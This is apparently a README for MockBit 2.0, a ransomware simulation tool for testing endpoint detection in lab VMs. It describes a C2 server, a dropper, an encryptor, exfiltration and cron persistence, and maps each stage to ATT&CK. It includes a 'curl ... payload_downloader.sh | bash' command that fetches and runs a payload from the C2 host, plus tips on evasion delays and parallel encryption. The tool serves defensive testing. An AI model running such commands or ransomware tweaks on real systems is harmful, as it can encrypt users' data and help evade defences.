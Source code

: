 # MockBit 2.0

**Safe ransomware simulation for EDR validation**

> ⚠️ **Read first:** MockBit is a controlled, fully reversible lab tool. Use it *only* in isolated VMs or air‑gapped networks that you own. Never deploy it on production, shared, or third-party systems.

---

## Table of contents

1. [Overview](#overview)
2. [Quick start (5 minutes)](#quick-start-5-minutes)
3. [Repository structure](#repository-structure)
4. [Manual usage](#manual-usage)
5. [Customization tips](#customization-tips)
6. [Troubleshooting](#troubleshooting)
7. [License & contributions](#license--contributions)
8. [MITRE ATT&CK mapping](#mitre-attck-mapping)

---

## Overview

MockBit behaves like real ransomware (ATT&CK T1486) while keeping you in full control:

| Stage        | Realism                         | Safety net                               |
|--------------|---------------------------------|-------------------------------------------|
| Delivery     | `curl` / `wget` payload         | No exploits, no privilege escalation      |
| Encryption   | AES-256-CBC via OpenSSL         | Key logged → 100 % decryptable            |
| Exfiltration | File list + key fragment        | Only dummy data you create                |
| Persistence  | Optional cron job               | One-liner removal included                |
| Cleanup      | —                               | Built-in decryptor and uninstaller        |

---

## Quick start (5 minutes)

**Lab topology**

```
    +-----------+      +---------------+
    | Attacker  |----->| Victim VM     |
    | (C2 host) |      | (SentinelOne) |
    +-----------+      +---------------+
```

**One-command install (attacker – AlmaLinux 8.10)**

```bash
sudo dnf install -y git python3-pip openssl
git clone https://github.com/Deathcrusher/mockbit_2.0.git
cd mockbit_2.0
chmod +x setup.sh && sudo ./setup.sh
```

**Example output**

```
C2 ready: http://192.168.1.100:8080
Payload URL: http://192.168.1.100:8000/payload_downloader.sh
Test files: /tmp/test_victim (200 items)
```

**Trigger on victim (non-root for maximum EDR visibility)**

```bash
curl -s http://192.168.1.100:8000/payload_downloader.sh | bash
```

Watch SentinelOne raise alerts, then decrypt when the run completes.

---

## Repository structure

```
mockbit_2.0/
├── setup.sh              # Installer & test-file generator
├── c2_server.py          # Flask C2 (beacon, exfil, key log)
├── payload_downloader.sh # Stage-0 dropper
├── ransomware.sh         # Stage-1 encryptor
├── decryptor.sh          # Stage-2 recovery
└── README.md             # This guide
```

> **Note:** `ransomware.sh` replaces the legacy `ransomware_core.sh` referenced in older docs.

---

## Manual usage

Skip `setup.sh` if you prefer to run individual stages.

```bash
# Encrypt only
./ransomware.sh /target/dir http://c2:8080

# Decrypt only
./decryptor.sh /target/dir "KEY" "IV"

# Stop the C2 server
pkill -f c2_server.py

# (Optional) clean up lab artefacts manually
#   - Remove generated cron jobs
#   - Delete /tmp/test_victim or other test directories
```

---

## Customization tips

- **Target directory:** edit the `TARGET_DIR` variable in the shell scripts.
- **Cipher suite:** change the `openssl enc -aes-256-*` invocation.
- **Evasion delays:** insert `sleep $((RANDOM % 10))` or similar pauses.
- **Parallelization:** leverage `xargs -P 8 -I {} …` for multi-threaded encryption.
- **C2 endpoint:** update the `C2_URL` variable to your desired host.

---

## Troubleshooting

| Issue                | Resolution |
|----------------------|------------|
| Port 8080 blocked    | `sudo firewall-cmd --add-port=8080/tcp --permanent && sudo firewall-cmd --reload` |
| No SentinelOne alert | Run as **non-root** and ensure “Deep Visibility” + “Ransomware” policies are enabled. |
| Decrypt fails        | Use the key and IV from the **same run** (check the C2 `/exfil` endpoint or ransom note). |
| Python missing       | `sudo dnf install python3 python3-pip && pip3 install flask` |

---

## License & contributions

- MIT License © 2025 Deathcrusher
- Pull requests welcome (e.g., Windows port, additional TTPs, educational EDR bypass research)

---

## MITRE ATT&CK mapping

- **T1566.002 – Initial Access:** `curl` / `wget` payload delivery
- **T1059.004 – Execution:** Unix shell
- **T1053.003 – Persistence:** Optional cron job
- **T1041 – Exfiltration:** HTTP POST to the C2 server
- **T1486 – Impact:** Data encrypted for impact
